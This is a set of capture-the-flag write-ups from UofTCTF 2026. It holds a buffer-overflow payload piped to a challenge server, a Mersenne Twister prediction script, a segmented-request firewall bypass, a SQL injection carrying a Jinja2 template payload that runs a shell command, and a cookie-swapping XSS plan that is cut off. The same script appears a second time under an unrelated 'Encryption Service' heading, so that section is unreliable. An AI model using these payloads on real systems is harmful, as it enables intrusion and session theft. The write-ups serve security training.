







# **Go Go Coaster!**

Description During an episode of Go Go Squid!, Han Shangyan was too scared to go on a roller coaster. What's the English name of this roller coaster? Also, what's its height in whole feet? Flag format: uoftctf{Coaster_Name_HEIGHT} Example: uoftctf{Yukon_Striker_999}

**Flag:** `uoftctf{Diving_Coaster_213}`

# **Baby bof**

```python
┌──(kali㉿kali)-[~/Downloads/ctf/uoftctf2026/babybof]
└─$ ( python3 -c 'import sys; sys.stdout.buffer.write(b"A"*8 + b"\x00" + b"A"*15 + b"\x1a\x10\x40\x00\x00\x00\x00\x00" + b"\xf6\x11\x40\x00\x00\x00\x00\x00")' ; cat -) |  nc 34.48.173.44 5000

What is your name: 
ls
Hi, AAAAAAAA!
ls
flag.txt
run
cat flag.txt
uoftctf{i7s_n0_surpris3_7h47_s7rl3n_s70ps_47_null}
```

### code

```python

undefined8 main(void)

{
  size_t sVar1;
  char local_18 [16];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_18[0] = '\0';
  local_18[1] = '\0';
  local_18[2] = '\0';
  local_18[3] = '\0';
  local_18[4] = '\0';
  local_18[5] = '\0';
  local_18[6] = '\0';
  local_18[7] = '\0';
  local_18[8] = '\0';
  local_18[9] = '\0';
  local_18[10] = '\0';
  local_18[0xb] = '\0';
  local_18[0xc] = '\0';
  local_18[0xd] = '\0';
  local_18[0xe] = '\0';
  local_18[0xf] = '\0';
  puts("What is your name: ");
  gets(local_18);
  sVar1 = strlen(local_18);
  if (0xe < sVar1) {
    puts("Thats suspicious.");
    FUN_00401100(1);
  }
  printf("Hi, %s!\n",local_18);
  return 0;
}
```

## First we need to bypass strlen

Check that strlen end with \0 = null character = 0x00

```python
strlen(3)                                     Library Functions Manual                                    strlen(3)

NAME
       strlen - calculate the length of a string

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       #include <string.h>

       size_t strlen(const char *s);

DESCRIPTION
       The  strlen()  function  calculates the length of the string pointed to by s, excluding the terminating null
       byte ('\0').
```

we need to bypass this one first 

```python
if (0xe < sVar1) {
    puts("Thats suspicious.");
    FUN_00401100(1);
  }
```

## Buffer-overflow value to RET and Win FUNC



```python
00000000004011f6 <win>:
  4011f6:       f3 0f 1e fa             endbr64
  4011fa:       55                      push   rbp
  4011fb:       48 89 e5                mov    rbp,rsp
  4011fe:       48 8d 05 ff 0d 00 00    lea    rax,[rip+0xdff]        # 402004 <_IO_stdin_used+0x4>
  401205:       48 89 c7                mov    rdi,rax
  401208:       e8 b3 fe ff ff          call   4010c0 <system@plt>
  40120d:       90                      nop
  40120e:       5d                      pop    rbp
  40120f:       c3                      ret

```

## Final payload

> 8 bytes of garbage + Null byte (to stop strlen) + 15 bytes of garbage + RET gadget + WIN address
> 

```python
( python3 -c 'import sys; sys.stdout.buffer.write(b"A"*8 + b"\x00" + b"A"*15 + b"\xd4\x12\x40\x00\x00\x00\x00\x00" + b"\xf6\x11\x40\x00\x00\x00\x00\x00")' ; cat -) |  nc 34.48.173.44 5000
```

The payload above help you to interact with /bin/bash in function `win`

```python
What is your name: 
ls
Hi, AAAAAAAA!
ls
flag.txt
run
cat flag.txt
uoftctf{i7s_n0_surpris3_7h47_s7rl3n_s70ps_47_null}
```

flag  :  `uoftctf{i7s_n0_surpris3_7h47_s7rl3n_s70ps_47_null}`

# **Reverse Wordle**

Using the Wordle solutions **REBUT** (Wordle #1), **CRASS** (Wordle #67), and **DITTY** (Wordle #1336)  and matching the first-guess color patterns against the official Wordle guess lists , the **only** starting word that fits all three boards is:

**SQUIB**

SHA-256 of **SQUIB** (ALL CAPS) is:

**uoftctf{64b28ded00856c89688f8376f58af02dc941535cbb0b94ad758d2a77b2468646}**

# **Gambler's Fallacy**

```python
#!/usr/bin/env python3
import socket
import re
import sys
import hmac
import hashlib
import random

MASK_32 = 0xFFFFFFFF

# ---------- buffered socket IO ----------
class SockBuf:
    def __init__(self, sock: socket.socket):
        self.sock = sock
        self.buf = b""

    def recv(self, n=4096) -> bytes:
        chunk = self.sock.recv(n)
        if not chunk:
            raise ConnectionError("Socket closed")
        return chunk

    def recvuntil(self, needle: bytes, max_bytes=8_000_000) -> bytes:
        while needle not in self.buf:
            self.buf += self.recv()
            if len(self.buf) > max_bytes:
                raise RuntimeError(f"Too much data buffered without finding {needle!r}")
        idx = self.buf.index(needle) + len(needle)
        out = self.buf[:idx]
        self.buf = self.buf[idx:]
        return out

    def sendline(self, s: str):
        self.sock.sendall(s.encode() + b"\n")

# ---------- MT19937 untempering (fixed) ----------
def undo_right_shift_xor(y: int, shift: int) -> int:
    # Invert y = x ^ (x >> shift) via iteration.
    x = y & MASK_32
    for _ in range(6):  # enough for 32-bit even for small shifts
        x = (y ^ (x >> shift)) & MASK_32
    return x

def undo_left_shift_xor_and(y: int, shift: int, mask: int) -> int:
    # Invert y = x ^ ((x << shift) & mask) via iteration.
    x = y & MASK_32
    for _ in range(6):
        x = (y ^ ((x << shift) & mask)) & MASK_32
    return x

def untemper(y: int) -> int:
    y &= MASK_32
    y = undo_right_shift_xor(y, 18)
    y = undo_left_shift_xor_and(y, 15, 0xEFC60000)
    y = undo_left_shift_xor_and(y, 7, 0x9D2C5680)
    y = undo_right_shift_xor(y, 11)
    return y & MASK_32

def build_python_random_from_624(outputs_32):
    if len(outputs_32) != 624:
        raise ValueError("Need exactly 624 outputs.")
    state = [untemper(o) for o in outputs_32]
    # Python Random state is (version, (624 ints + index), gaussian)
    py_state = (3, tuple(state + [624]), None)
    r = random.Random()
    r.setstate(py_state)
    return r

# ---------- roll replication (from chall.py) ----------
def compute_roll(server_seed: int, client_seed: str, nonce: int) -> int:
    msg = f"{client_seed}-{nonce}".encode()
    key = str(server_seed).encode()
    sig = hmac.new(key, msg, hashlib.sha256).hexdigest()

    index = 0
    lucky = int(sig[index*5:index*5+5], 16)
    while lucky >= 1_000_000:
        index += 1
        if index * 5 + 5 > 129:
            lucky = 9999
            break
        lucky = int(sig[index*5:index*5+5], 16)

    return int(round((lucky % 10_000) * 0.01))

# ---------- parsing helpers ----------
SEED_RE = re.compile(r"Server-Seed:\s*([0-9]+)")
BAL_RE  = re.compile(r"Balance:\s*([0-9]+(?:\.[0-9]+)?)")
MINW_RE = re.compile(r"min-wager is\s*([0-9]+(?:\.[0-9]+)?)", re.IGNORECASE)
FINAL_BAL_RE = re.compile(r"Final Balance:\s*([0-9]+(?:\.[0-9]+)?)", re.IGNORECASE)
FLAG_RE = re.compile(r"uoftctf\{[^}]+\}")

def main(host: str, port: int):
    sock = socket.create_connection((host, port))
    sock.settimeout(10)
    io = SockBuf(sock)

    client_seed = "1337awesome"
    nonce = 0
    balance = None

    # read initial menu
    banner = io.recvuntil(b"> ").decode(errors="ignore")
    m = BAL_RE.search(banner)
    if m:
        balance = float(m.group(1))

    # ---- Phase 1: collect 624 server seeds with one long gamble ----
    io.sendline("b")

    wager_prompt = io.recvuntil(b"): ").decode(errors="ignore")
    mm = MINW_RE.search(wager_prompt)
    min_wager = float(mm.group(1)) if mm else 1.0
    wager = max(min_wager, 1.0)
    io.sendline(f"{wager}")

    io.recvuntil(b"): ")
    io.sendline("624")

    io.recvuntil(b"): ")
    io.sendline("98")

    io.recvuntil(b"(Y/N)")
    io.sendline("Y")

    out = io.recvuntil(b"> ", max_bytes=10_000_000).decode(errors="ignore")

    seeds = [int(x) for x in SEED_RE.findall(out)]
    if len(seeds) < 624:
        print(out[:2500])
        raise RuntimeError(f"Only got {len(seeds)} Server-Seed values; need 624.")
    seeds = seeds[:624]

    nonce = 624

    mfb = FINAL_BAL_RE.findall(out)
    if mfb:
        balance = float(mfb[-1])

    print(f"[+] Collected 624 seeds. nonce={nonce} balance≈{balance}")

    rng = build_python_random_from_624(seeds)
    print("[+] Recovered MT19937 state.")

    # ---- helper: perform 1 game bet ----
    def do_one_game(wager_f: float, greed: int):
        nonlocal balance, nonce

        io.sendline("b")
        prompt = io.recvuntil(b"): ").decode(errors="ignore")
        mm = MINW_RE.search(prompt)
        minw = float(mm.group(1)) if mm else (balance / 800.0 if balance else 1.0)

        if wager_f < minw:
            wager_f = minw
        if balance is not None and wager_f > balance:
            wager_f = balance

        io.sendline(f"{wager_f}")
        io.recvuntil(b"): ")
        io.sendline("1")
        io.recvuntil(b"): ")
        io.sendline(str(greed))
        io.recvuntil(b"(Y/N)")
        io.sendline("Y")

        out = io.recvuntil(b"> ").decode(errors="ignore")

        ms = SEED_RE.search(out)
        got_seed = int(ms.group(1)) if ms else None

        mfb = FINAL_BAL_RE.search(out)
        if mfb:
            balance = float(mfb.group(1))

        nonce += 1
        return out, got_seed, wager_f

    # ---- Phase 2: grow bankroll to >= 10000 ----
    while balance is None or balance < 10000:
        predicted_seed = rng.getrandbits(32)
        predicted_roll = compute_roll(predicted_seed, client_seed, nonce)

        if predicted_roll <= 2:
            greed = 2
            wager = balance  # all-in
        elif predicted_roll <= 98:
            greed = max(2, predicted_roll)
            wager = max(balance / 800.0, 1.0)
        else:
            greed = 98
            wager = max(balance / 800.0, 1.0)

        out, got_seed, actual_wager = do_one_game(wager, greed)

        if got_seed != predicted_seed:
            print("=== DESYNC OUTPUT ===")
            print(out)
            raise RuntimeError(f"Desynced RNG: predicted seed {predicted_seed}, got {got_seed}")

        print(f"[+] nonce={nonce} roll={predicted_roll} greed={greed} wager≈{actual_wager:.6f} balance≈{balance:.6f}")

        if balance is not None and balance <= 0:
            raise RuntimeError("Broke :(")

    # ---- Buy flag ----
    io.sendline("a")
    io.recvuntil(b"> ")
    io.sendline("a")
    data = io.recvuntil(b"}", max_bytes=300_000).decode(errors="ignore")

    fm = FLAG_RE.search(data)
    if fm:
        print("[+] FLAG:", fm.group(0))
    else:
        print(data)
        print("[-] Flag not found; maybe different output formatting.")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} HOST PORT")
        sys.exit(1)
    main(sys.argv[1], int(sys.argv[2]))

```

```python
[+] nonce=670 roll=8 greed=8 wager≈1.096571 balance≈889.730418
[+] nonce=671 roll=5 greed=5 wager≈1.112163 balance≈910.639083
[+] nonce=672 roll=20 greed=20 wager≈1.138299 balance≈915.135363
[+] nonce=673 roll=71 greed=71 wager≈1.143919 balance≈915.586486
[+] nonce=674 roll=49 greed=49 wager≈1.144483 balance≈916.754326
[+] nonce=675 roll=33 greed=33 wager≈1.145943 balance≈919.046212
[+] nonce=676 roll=96 greed=96 wager≈1.148808 balance≈919.082112
[+] nonce=677 roll=97 greed=97 wager≈1.148853 balance≈919.105800
[+] nonce=678 roll=1 greed=2 wager≈919.105800 balance≈45495.737102
[+] FLAG: uoftctf{ez_m3rs3nne_untwisting!!}

```

# **Encryption Service**

```python
#!/usr/bin/env python3
import socket
import re
import sys
import hmac
import hashlib
import random

MASK_32 = 0xFFFFFFFF

# ---------- buffered socket IO ----------
class SockBuf:
    def __init__(self, sock: socket.socket):
        self.sock = sock
        self.buf = b""

    def recv(self, n=4096) -> bytes:
        chunk = self.sock.recv(n)
        if not chunk:
            raise ConnectionError("Socket closed")
        return chunk

    def recvuntil(self, needle: bytes, max_bytes=8_000_000) -> bytes:
        while needle not in self.buf:
            self.buf += self.recv()
            if len(self.buf) > max_bytes:
                raise RuntimeError(f"Too much data buffered without finding {needle!r}")
        idx = self.buf.index(needle) + len(needle)
        out = self.buf[:idx]
        self.buf = self.buf[idx:]
        return out

    def sendline(self, s: str):
        self.sock.sendall(s.encode() + b"\n")

# ---------- MT19937 untempering (fixed) ----------
def undo_right_shift_xor(y: int, shift: int) -> int:
    # Invert y = x ^ (x >> shift) via iteration.
    x = y & MASK_32
    for _ in range(6):  # enough for 32-bit even for small shifts
        x = (y ^ (x >> shift)) & MASK_32
    return x

def undo_left_shift_xor_and(y: int, shift: int, mask: int) -> int:
    # Invert y = x ^ ((x << shift) & mask) via iteration.
    x = y & MASK_32
    for _ in range(6):
        x = (y ^ ((x << shift) & mask)) & MASK_32
    return x

def untemper(y: int) -> int:
    y &= MASK_32
    y = undo_right_shift_xor(y, 18)
    y = undo_left_shift_xor_and(y, 15, 0xEFC60000)
    y = undo_left_shift_xor_and(y, 7, 0x9D2C5680)
    y = undo_right_shift_xor(y, 11)
    return y & MASK_32

def build_python_random_from_624(outputs_32):
    if len(outputs_32) != 624:
        raise ValueError("Need exactly 624 outputs.")
    state = [untemper(o) for o in outputs_32]
    # Python Random state is (version, (624 ints + index), gaussian)
    py_state = (3, tuple(state + [624]), None)
    r = random.Random()
    r.setstate(py_state)
    return r

# ---------- roll replication (from chall.py) ----------
def compute_roll(server_seed: int, client_seed: str, nonce: int) -> int:
    msg = f"{client_seed}-{nonce}".encode()
    key = str(server_seed).encode()
    sig = hmac.new(key, msg, hashlib.sha256).hexdigest()

    index = 0
    lucky = int(sig[index*5:index*5+5], 16)
    while lucky >= 1_000_000:
        index += 1
        if index * 5 + 5 > 129:
            lucky = 9999
            break
        lucky = int(sig[index*5:index*5+5], 16)

    return int(round((lucky % 10_000) * 0.01))

# ---------- parsing helpers ----------
SEED_RE = re.compile(r"Server-Seed:\s*([0-9]+)")
BAL_RE  = re.compile(r"Balance:\s*([0-9]+(?:\.[0-9]+)?)")
MINW_RE = re.compile(r"min-wager is\s*([0-9]+(?:\.[0-9]+)?)", re.IGNORECASE)
FINAL_BAL_RE = re.compile(r"Final Balance:\s*([0-9]+(?:\.[0-9]+)?)", re.IGNORECASE)
FLAG_RE = re.compile(r"uoftctf\{[^}]+\}")

def main(host: str, port: int):
    sock = socket.create_connection((host, port))
    sock.settimeout(10)
    io = SockBuf(sock)

    client_seed = "1337awesome"
    nonce = 0
    balance = None

    # read initial menu
    banner = io.recvuntil(b"> ").decode(errors="ignore")
    m = BAL_RE.search(banner)
    if m:
        balance = float(m.group(1))

    # ---- Phase 1: collect 624 server seeds with one long gamble ----
    io.sendline("b")

    wager_prompt = io.recvuntil(b"): ").decode(errors="ignore")
    mm = MINW_RE.search(wager_prompt)
    min_wager = float(mm.group(1)) if mm else 1.0
    wager = max(min_wager, 1.0)
    io.sendline(f"{wager}")

    io.recvuntil(b"): ")
    io.sendline("624")

    io.recvuntil(b"): ")
    io.sendline("98")

    io.recvuntil(b"(Y/N)")
    io.sendline("Y")

    out = io.recvuntil(b"> ", max_bytes=10_000_000).decode(errors="ignore")

    seeds = [int(x) for x in SEED_RE.findall(out)]
    if len(seeds) < 624:
        print(out[:2500])
        raise RuntimeError(f"Only got {len(seeds)} Server-Seed values; need 624.")
    seeds = seeds[:624]

    nonce = 624

    mfb = FINAL_BAL_RE.findall(out)
    if mfb:
        balance = float(mfb[-1])

    print(f"[+] Collected 624 seeds. nonce={nonce} balance≈{balance}")

    rng = build_python_random_from_624(seeds)
    print("[+] Recovered MT19937 state.")

    # ---- helper: perform 1 game bet ----
    def do_one_game(wager_f: float, greed: int):
        nonlocal balance, nonce

        io.sendline("b")
        prompt = io.recvuntil(b"): ").decode(errors="ignore")
        mm = MINW_RE.search(prompt)
        minw = float(mm.group(1)) if mm else (balance / 800.0 if balance else 1.0)

        if wager_f < minw:
            wager_f = minw
        if balance is not None and wager_f > balance:
            wager_f = balance

        io.sendline(f"{wager_f}")
        io.recvuntil(b"): ")
        io.sendline("1")
        io.recvuntil(b"): ")
        io.sendline(str(greed))
        io.recvuntil(b"(Y/N)")
        io.sendline("Y")

        out = io.recvuntil(b"> ").decode(errors="ignore")

        ms = SEED_RE.search(out)
        got_seed = int(ms.group(1)) if ms else None

        mfb = FINAL_BAL_RE.search(out)
        if mfb:
            balance = float(mfb.group(1))

        nonce += 1
        return out, got_seed, wager_f

    # ---- Phase 2: grow bankroll to >= 10000 ----
    while balance is None or balance < 10000:
        predicted_seed = rng.getrandbits(32)
        predicted_roll = compute_roll(predicted_seed, client_seed, nonce)

        if predicted_roll <= 2:
            greed = 2
            wager = balance  # all-in
        elif predicted_roll <= 98:
            greed = max(2, predicted_roll)
            wager = max(balance / 800.0, 1.0)
        else:
            greed = 98
            wager = max(balance / 800.0, 1.0)

        out, got_seed, actual_wager = do_one_game(wager, greed)

        if got_seed != predicted_seed:
            print("=== DESYNC OUTPUT ===")
            print(out)
            raise RuntimeError(f"Desynced RNG: predicted seed {predicted_seed}, got {got_seed}")

        print(f"[+] nonce={nonce} roll={predicted_roll} greed={greed} wager≈{actual_wager:.6f} balance≈{balance:.6f}")

        if balance is not None and balance <= 0:
            raise RuntimeError("Broke :(")

    # ---- Buy flag ----
    io.sendline("a")
    io.recvuntil(b"> ")
    io.sendline("a")
    data = io.recvuntil(b"}", max_bytes=300_000).decode(errors="ignore")

    fm = FLAG_RE.search(data)
    if fm:
        print("[+] FLAG:", fm.group(0))
    else:
        print(data)
        print("[-] Flag not found; maybe different output formatting.")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} HOST PORT")
        sys.exit(1)
    main(sys.argv[1], int(sys.argv[2]))

```

```python
┌──(.venv)─(kali㉿kali)-[~/Downloads/ctf/uoftctf2026/misc_encryptionservice]
└─$ python3 encryptionservice.py 
uoftctf{x4rgs_d03sn7_run_in_0n3_pr0c3ss}
```

# Firewall

In the firewall configuration it block user curl to flag

```python
static const char blocked_kw[KW_LEN] = "flag";
```

Firewalls block ingress packets that contain "flag"… So we need to split it into two parts… (“fl” and “ag.html”); with that, we can bypass the firewall.

- As the first packet goes in the firewall, it sees the packet only contains "fl," and after that is only "ag.html" It doesn’t know that when the packet reassembles, it is flag.html.

For more information, you can search for `data segmentation`, `TCP stream-oriented`, and `stateless firewall.`

Also, you can see in the code why it only takes 1 byte per time. The reason is on the egress side there is also contained a flag word. So that is the reason I only take one byte per one and increment it.

My first prototype was really bad. it is not stable and lost some words !!! So i asked AI to help me generate one 

```python
import socket
import time

TARGET_IP = "35.227.38.232"
TARGET_PORT = 5000

def get_byte_with_retry(offset, max_retries=5):
    """Thử lấy 1 byte tại vị trí offset, nếu lỗi sẽ thử lại."""
    for attempt in range(max_retries):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
            s.settimeout(2.0) # Tăng timeout lên 2s để ổn định hơn
            s.connect((TARGET_IP, TARGET_PORT))

            # Ingress Bypass
            s.send(b"GET /fl")
            time.sleep(0.02) 
            
            request = (
                f"ag.html HTTP/1.1\r\n"
                f"Host: {TARGET_IP}\r\n"
                f"Range: bytes={offset}-{offset}\r\n"
                f"Connection: close\r\n\r\n"
            )
            s.send(request.encode())

            response = b""
            while True:
                chunk = s.recv(4096)
                if not chunk: break
                response += chunk
            s.close()

            if b"\r\n\r\n" in response:
                return response.split(b"\r\n\r\n")[1]
            
        except (socket.timeout, ConnectionResetError):
            time.sleep(0.1) # Nghỉ một chút trước khi thử lại
            continue
    return b"?" # Trả về dấu hỏi nếu quá số lần thử mà vẫn lỗi

print("[*] Đang trích xuất flag với cơ chế chống mất gói tin...")
full_content = ""
for i in range(213):
    char_byte = get_byte_with_retry(i)
    char = char_byte.decode(errors='ignore')
    full_content += char
    # In ra màn hình ngay lập tức để theo dõi
    print(char, end="", flush=True)

print("\n\n[+] Hoàn tất! Nội dung sạch:")
print(full_content)
```

```python
[*] Đang trích xuất flag với cơ chế chống mất gói tin...
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Flag!</title>
</head>
<body>
  <h1>Here is your free flag: uoftctf{f1rew4l1_Is_nOT_par7icu11rLy_R0bust_I_bl4m3_3bpf}</h1>
</body>
</html>

```

flag : uoftctf{f1rew4l1_Is_nOT_par7icu11rLy_R0bust_I_bl4m3_3bpf}

# **No Quotes**

SQLi and SSTI

```python
@app.get("/home")
def home():
    if not session.get("user"):
        return redirect(url_for("index"))
    return render_template_string(open("templates/home.html").read() % session["user"])
```

When login as test. We can see it load the username at the /home page



To get the flag we can first bypass login with the username is SSTI payload open /readflag !!!

SSTI payload (**Jinja2)**:

```python
{{lipsum.__globals__.os.popen('/readflag').read()}}
```

```python
Username: \

Password: ) UNION SELECT 1, CHAR(123,123,108,105,112,115,117,109,46,95,95,103,108,111,98,97,108,115,95,95,46,111,115,46,112,111,112,101,110,40,39,47,114,101,97,100,102,108,97,103,39,41,46,114,101,97,100,40,41,125,125) -- -
```

This is how SQLi works 

```sql
SELECT id, username FROM users WHERE username = ('\') AND password = (') UNION SELECT 1, CHAR(123,123,108,105,112,115,117,109,46,95,95,103,108,111,98,97,108,115,95,95,46,111,115,46,112,111,112,101,110,40,39,47,114,101,97,100,102,108,97,103,39,41,46,114,101,97,100,40,41,125,125) -- -')"
```

Why add `\` in username and convert SSTI in decimal.

Because there is `waf`function. Its purpose is to blacklist single quote and double quote

```sql
def waf(value: str) -> bool:
    blacklist = ["'", '"']
    return any(char in value for char in blacklist)
```

And after you done all of that you can get flag !!!



Flag : `uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7h3_57R1nG!}` 

# **Personal Blog**

### Step 1: Planting the Trap (XSS Injection)

We use the vulnerable `/api/autosave` endpoint to inject malicious code into Post #501. This script is designed to:

1. Read the `sid_prev` cookie (where the Admin's session is hidden).
2. Overwrite the current session cookie (`sid`) with the Admin's session.
3. Fetch the flag.

Step 2: Identity Swap

We generate a Magic Link for the **hacker's** account (`/magic/<hacker_token>`).

Step 3: Triggering the Chain

We send the Admin the following URL:
`http://localhost:3000/magic/<HACKER_TOKEN>?redirect=/edit/501`

**The Process:**

1. **Admin Clicks the Link:** The Admin bot visits your Magic Link.
2. **Server Processing:**
    - Sees Admin is logged in -> Moves Admin session to `sid_prev`.
    - Logs Admin into the Hacker’s account (due to the Magic Link).
    - Redirects Admin to `/edit/501`.
3. **Bypassing Access Control:** Since the Admin is now acting as "The Hacker," the system allows them to view Post 501.
4. **XSS Triggers:** The JavaScript inside Post 501 executes.
5. **Privilege Escalation:**
